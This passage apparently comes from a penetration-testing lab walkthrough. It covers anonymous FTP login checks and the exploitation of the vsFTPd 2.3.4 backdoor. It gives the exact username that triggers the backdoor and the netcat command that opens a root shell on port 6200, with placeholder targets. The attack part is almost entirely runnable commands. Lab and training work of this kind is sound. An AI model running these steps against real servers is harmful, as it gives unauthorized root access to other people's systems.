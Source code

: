 ### Step 2: FTP Service Enumeration

#### Anonymous Access Test
```bash
# Test anonymous FTP access
ftp <target-ip>
# Username: anonymous
# Password: anonymous (or any email)

# Alternative using lftp
lftp ftp://anonymous:anonymous@<target-ip>
```

#### FTP Commands Testing
```bash
# Connect and test basic commands
ftp <target-ip>
# After connecting:
ls
pwd
dir
binary
ascii
passive
```

---

## 💥 Exploitation Workflow

### Method 1: Manual Backdoor Exploitation

#### Step 1: Trigger the Backdoor
```bash
# Connect to FTP service
telnet <target-ip> 21

# Wait for banner: 220 (vsFTPd 2.3.4)
# Send malicious username (the :) triggers the backdoor)
USER malicious:)

# Send any password
PASS anything

# The connection may hang or close - this is normal
```

#### Step 2: Connect to Backdoor Shell
```bash
# In a new terminal, connect to the backdoor on port 6200
nc <target-ip> 6200

# You should get a root shell immediately
# Verify with:
id
whoami
```
